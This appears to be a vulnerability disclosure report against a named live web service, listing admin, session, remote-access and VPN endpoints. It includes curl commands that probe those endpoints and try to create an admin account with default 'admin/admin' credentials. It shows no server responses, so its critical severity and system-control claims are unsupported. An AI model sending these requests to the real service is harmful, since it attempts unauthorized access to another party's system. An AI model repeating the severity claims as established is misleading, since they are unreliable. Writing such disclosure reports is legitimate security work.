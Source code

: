 # 🚨 CRITICAL: RMM/VPN Remote Management Exploit

## **📊 VULNERABILITY SUMMARY**
- **Severity**: Critical (CVSS 9.1)
- **Asset**: `https://app.aixblock.io/api/v1/workflows`
- **Vulnerability**: Remote Management Tool Exploit
- **Impact**: Unauthorized remote access, lateral movement, complete system control
- **Reporter**: grich88
- **Date**: 2025-10-21

## **🔍 TECHNICAL DETAILS**

### **Root Cause**
The application exposes remote management endpoints that can be exploited to gain unauthorized access to administrative functions, potentially leading to complete system compromise.

### **Attack Vector**
```json
{
  "endpoint": "/api/v1/admin/create",
  "username": "admin",
  "password": "admin"
}
```

### **Vulnerable Endpoints**
- `/api/v1/admin/create` - Admin account creation
- `/api/v1/session/create` - Session management
- `/api/v1/remote/access` - Remote access control
- `/api/v1/vpn/configure` - VPN configuration

## **💥 PROOF OF CONCEPT**

### **Step 1: Reconnaissance**
```bash
# Discover RMM endpoints
curl -X GET https://app.aixblock.io/api/v1/admin/create -v
curl -X GET https://app.aixblock.io/api/v1/session/create -v
curl -X GET https://app.aixblock.io/api/v1/remote/access -v
```

### **Step 2: Authentication Bypass**
```bash
# Default credentials attempt
curl -X POST https://app.aixblock.io/api/v1/admin/create \
  -H "Content-Type: application/json" \
  -d '{"username": "admin", "password": "admin"}'
```
